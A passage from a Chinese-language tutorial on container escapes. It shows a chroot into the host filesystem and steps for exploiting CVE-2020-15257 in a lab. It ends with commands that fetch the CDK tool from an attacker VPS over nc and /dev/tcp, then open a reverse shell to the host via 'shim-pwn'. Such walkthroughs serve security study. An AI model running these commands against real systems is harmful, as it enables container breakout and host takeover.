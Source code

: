 ```php
chroot /ning
```

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702557120164-5b9fa146-f24e-4af3-9454-276f5ab9ce54.png)

查看etc/passwd

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702557157347-cd5c48a8-5c31-45bb-898c-c9ce37e811e5.png)

可以看到我们已经拿到了宿主机的权限

容器漏洞-CVE-2020-15257
-------------------

我们之前说过--net=host：使容器与宿主机处于同一网络命名空间，网络隔离被打破,该cve的核心就是如此

漏洞环境搭建

```php
./metarget cnv install cve-2020-15257
```

启动漏洞环境

```php
docker run -it --net=host --name=15257 ubuntu /bin/bash
```

判断是否使用host模式

```php
cat /proc/net/unix | grep 'containerd-shim'
```

有结果则说明当前容器启用了host模式

![](https://cdn.nlark.com/yuque/0/2023/png/36190252/1702573124851-bc3bc947-babb-42e4-9e73-c66654dfb21d.png)

接下来我们使用大名鼎鼎的CDK

<https://github.com/cdk-team/CDK/wiki/CDK-Home-CN>

如何将CDK上传到容器内部?

1.webshell下直接上传

2.非webshell下的出网环境

```php
#vps上面开启nc
nc -lvp 999 <cdk

#容器内写入
cat < /dev/tcp/[vps-ip]/[vps-port] >cdk

#反弹宿主机shell
chmod a+X cdk
./cdk run shim-pwn reverse [ip] [port]
```

